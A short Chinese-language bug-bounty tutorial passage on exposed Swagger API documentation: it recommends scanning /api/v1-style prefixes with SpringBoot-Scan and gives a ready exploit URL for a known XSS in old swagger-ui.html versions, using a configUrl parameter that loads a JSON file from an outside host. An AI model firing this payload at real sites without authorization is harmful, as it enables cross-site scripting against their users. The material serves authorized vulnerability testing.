

**<font style="color:rgba(0, 0, 0, 0.9);">swagger接口泄露</font>**

<font style="color:rgba(0, 0, 0, 0.9);">在进行渗透测试中发现，存在以下接口特征，对于这种/</font><font style="color:rgb(255, 76, 65);">api/v1或者/api/v2或者/api、/apis</font><font style="color:rgba(0, 0, 0, 0.9);">等API开头的接口前缀，是很容易出现swagger、actuator、druid泄露等，当然在我们课程中都是经常讲，也经常遇到的。</font>

<font style="color:rgba(0, 0, 0, 0.9);">对“</font><font style="color:rgba(0, 0, 0, 0.9);">https://www.xxxtest.com/api/v1</font><font style="color:rgba(0, 0, 0, 0.9);">” 进行目录扫描，这里推荐</font>

<font style="color:rgba(0, 0, 0, 0.9);">springboot-scan进行目录扫描。</font>

<font style="color:rgba(0, 0, 0, 0.9);">该工具扫描后大概为以下类似的内容，红色、紫色的就是可疑存在敏感信息泄露。</font>

```plain
https://github.com/AabyssZG/SpringBoot-Scan
```

<font style="color:rgba(0, 0, 0, 0.9);">swagger存在两个可利用路径</font>

<font style="color:rgba(0, 0, 0, 0.9);">比如：</font>

<font style="color:rgb(51, 51, 51);background-color:rgba(0, 0, 0, 0.03);">https://www.xxxtest.com/api/v1/swagger-ui.htmlhttps://www.xxxtest.com/api/v1/api-docs</font>

`**<font style="color:rgb(232, 62, 140);">swagger-ui.html的XSS漏洞</font>**`

<font style="color:rgba(0, 0, 0, 0.9);">对于html页面的swagger，在低版本下是存在一个通杀的nday xss，成功率极高，差不多你能遇到的swagger，六成都有这个xss。</font>

`<font style="color:rgb(232, 62, 140);">  
</font>`

<font style="color:rgba(0, 0, 0, 0.9);">通过?configUrl=https://xss.smarpo.com/test.json 的方式，可以触发漏洞，漏洞复现可以使用这个现成的测试链接，就是这个</font>

```plain
https://xss.smarpo.com/test.json
```

<font style="color:rgba(0, 0, 0, 0.9);">直接使用这个测试链接，是别人写好测试该漏洞的。</font>

<font style="color:rgba(0, 0, 0, 0.9);">触发弹框交上去就可以了，有很多审核不懂这个漏洞，建议解释一下这是个cve的nday，之前交某src扯了很久一直问原理，大概解释后也给了75元子的低危风险。</font>

<font style="color:rgba(0, 0, 0, 0.9);">完整链接差不多如下：</font>

```plain
https://www.xxxtest.com/api/v1/swagger-ui.html?configUrl=https://xss.smarpo.com/test.json
```



